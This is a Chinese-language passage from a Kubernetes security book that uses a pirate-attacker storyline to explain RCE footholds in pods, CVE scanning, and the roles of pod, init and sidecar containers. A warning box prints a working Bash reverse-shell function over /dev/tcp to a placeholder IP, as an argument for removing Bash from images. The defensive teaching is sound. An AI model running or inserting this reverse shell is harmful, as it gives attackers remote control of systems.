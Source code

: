 要了解攻击者如何仅仅通过强大的但又谦逊的 Bash shell 在远程系统中建立立足点，例如，可以参考《[Cybersecurity Ops with bash](https://oreil.ly/ZmILo)》一书的第十六章，作者为 Paul Troncone 和 Carl Albing（O’Reilly）。

为了防御此类攻击，我们必须扫描容器，寻找操作系统和应用程序的 CVE 漏洞，并希望在它们被利用之前对其进行更新。

如果 Hashjack 船长成功远程代码执行到一个 pod 内部，这将成为深入攻击您系统的一个立足点，通过 pod 的网络位置和权限设置。您应该努力限制攻击者在这个位置能做的事情，并根据工作负载的敏感性定制您的安全配置。如果您的控制太松散，这可能是雇主 BCTL 公司范围内遭遇全面违规的开端。

###### 提示

例如使用 Metasploit 在 Struts 中生成一个 shell，请参阅[Sam Bowne 的指南](https://oreil.ly/nzsxP)。

正如 Dread Pirate Hashjack 刚刚发现的，我们还一直在运行一个有漏洞的 Struts 库版本。这给攻击者从内部开始攻击集群提供了机会。

###### 警告

类似这样一个简单的 Bash 反向 shell 是移除容器中 Bash 的一个很好的理由。它利用了 Bash 的虚拟 */dev/tcp/* 文件系统，而在不包含这个常被滥用功能的`sh`中则无法利用：

```
revshell() {
    local TARGET_IP="${1:-123.123.123.123}";
    local TARGET_PORT="${2:-1234}";
    while :; do
        nohup bash -i &> \
          /dev/tcp/${TARGET_IP}/${TARGET_PORT} 0>&1;
        sleep 1;
    done
}
```

攻击开始时，让我们看看海盗们登陆的位置：在一个 Kubernetes pod 内部。

# Kubernetes 工作负载：Pod 内的应用程序

多个协作容器可以被逻辑地分组到一个 pod 中，Kubernetes 运行的每个容器必须运行在一个 pod 内。有时一个 pod 被称为一个“工作负载”，这是同一个执行环境的多个副本之一。每个 pod 必须在你的 Kubernetes 集群中的一个节点上运行，如图 2-3 所示。

一个 pod 是你的应用的单个实例，为了按需扩展，使用多个相同的 pod 来复制应用程序，通过工作负载资源（如 Deployment、DaemonSet 或 StatefulSet）。

你的 pod 可能包括支持监控、网络和安全的 sidecar 容器，以及用于 pod 引导的“init”容器，使你能够部署不同的应用程序风格。这些 sidecar 很可能具有提升的权限，并且对攻击者来说是感兴趣的对象之一。

“Init” 容器按顺序运行（从头到尾）以设置一个 pod，并可以对命名空间进行安全更改，例如 Istio 的 init 容器配置 pod 的 *iptables*（在内核的 netfilter 中），以便运行时（非 init 容器）的 pod 通过 sidecar 容器路由流量。Sidecar 与 pod 中的主要容器并行运行，一个 pod 中的所有非 init 容器同时启动。
